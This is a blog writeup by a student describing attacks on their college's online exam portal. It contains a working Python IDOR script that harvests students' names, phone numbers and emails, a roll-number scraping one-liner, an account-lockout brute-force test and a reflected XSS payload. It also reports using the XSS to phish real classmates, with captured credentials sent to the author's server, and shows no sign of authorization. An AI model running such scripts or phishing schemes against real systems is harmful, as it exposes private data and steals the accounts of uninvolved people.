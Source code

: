 ```yaml
---
layout: post
title:  "Hacking college exam portal"
description: In this writeup I will show that how I found email address and phone numbers disclosure by exploiting.
---
```


I'm a student and I'm interested in web application security testing. Due to COVID-19, colleges decided to conduct online exams, so before the exam, they provided us with the credentials of an online exam portal, so I decided to test the security of this portal.

I setup Burp Suite on my system and started exploring the functionality of the website. Starting with the login functionality

![image](../../../assets/images/clg-hack-1.png){: .imagePopup}

I tried for SQL Injection but didn't find any. Then I tested for lack of rate limiting protection because the password they had provided is just a 6 capital alphabet, so hacking a password of this length by brute forcing is quite easy. 

I used an intruder with a null payload to test for rate limiting.

![image](../../../assets/images/clg-hack-2.png){: .imagePopup}

and after some requests, the account got locked and I was not able to login into the account. This can also be exploited by any malicious user during an exam as he/she has the ability to lock the account of any user by just knowing their roll number and the student cannot give the exam without logging in.

### Vulnerability:  Insecure direct object references (IDOR)

After logging into my account, I found the Preview Application functionality where we can see our information like Name, Phone Number, Email, Course, etc.

Basically, it is a preview of our exam registration form with all the details.

![image](../../../assets/images/clg-hack-3.png){: .imagePopup}

So I checked in Burp Suite and found that it is sending a POST request to `REDACTEDApplicationPreview.obj` with 3 parameters in the body, i.e., `compCode`, `login_id` and I cannot disclose the third parameter name.

Where value of `login_id` is our roll number so I changed my roll number with the roll number of other students and I got the details of their exam registration form, which included name, phone number, email address, course etc.

![image](../../../assets/images/clg-hack-4.png){: .imagePopup}

I also found a website that has the roll numbers of all the students, so by running a one-line JavaScript code in the browser console, we can obtain the list of roll numbers.


```js
x=document.getElementsByClassName("limit-char");for(i=0;i<x.length;i++){console.log(x[i].innerHTML)}
```

![image](../../../assets/images/clg-hack-6.png){: .imagePopup}

# Exploiting

Now writing an exploit to automate this process. I wrote a Python script which takes a list of roll numbers and fetches the name, email, and phone number of that user.

```python
import requests
import re
from bs4 import BeautifulSoup

def fetch_info(uid):
	url =  'https://vulnerable-endpoint'

	headers = {

		"Content-Type": "application/x-www-form-urlencoded",
		"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"

	}

	payload = {
		"compCode":"111111",
		"login_id":uid,
		"REDACTED":"111111"
	}

	r = requests.post(url, data=payload, headers=headers)
	soup = BeautifulSoup(r.text, 'html.parser')
	soup = soup.find_all('td')
	
	roll_no = re.sub(r"</?td>", "", str(soup[1]))
	name = re.sub(r"</?td>", "", str(soup[2]))
	phn = re.sub(r"</?td>", "", str(soup[3]))
	email = re.sub(r"</?td>", "", str(soup[4]))

	print(f"[==================]\n[+] {name}\n[+] {roll_no}\n[+] {phn}\n[+] {email}")

if __name__ == '__main__':
	with open('ids.txt', 'r') as f:
		for i in f.readlines():
			uid = i.split("\n")[0]
			fetch_info(uid)
```

After running the above python script, we can fetch the details of all users.

![image](../../../assets/images/clg-hack-5.png){: .imagePopup}

### Vulnerability: Reflected Cross Site Scripting (XSS)

After some enumeration, I found an endpoint `verificationCompany.obj` which is reflecting the `pageurl` parameter in response so I injected the HTML tag so see If it is encoding or not and I found that special characters such as `"`, `>`, `<` are not encoded in source code.

![image](../../../assets/images/clg-hack-7.png){: .imagePopup}

Then I created a XSS payload i.e., `"><script>alert(document.domain)</script>"` and got an alert popup in browser.

![image](../../../assets/images/clg-hack-8.png){: .imagePopup}

I tried to convert this XSS to an account takeover but failed, So I decided to use this XSS for phishing attack because I have emails of all the students so I created a fake login page which sends the username and password to my server.

I changed the website interface to a fake login page by using the JavaScript because we have XSS so we can run own JavaScript in Victim's browsers, So user will see the website is secure and legit but we are running our own code.

Created a phishing mail and sent to some emails.

![image](../../../assets/images/clg-hack-9.png){: .imagePopup}

Once the user will login with the link in email, their usersname and password will be sent to my server and then I can login into account.

![image](../../../assets/images/clg-hack-10.png){: .imagePopup}


Thanks for reading :)

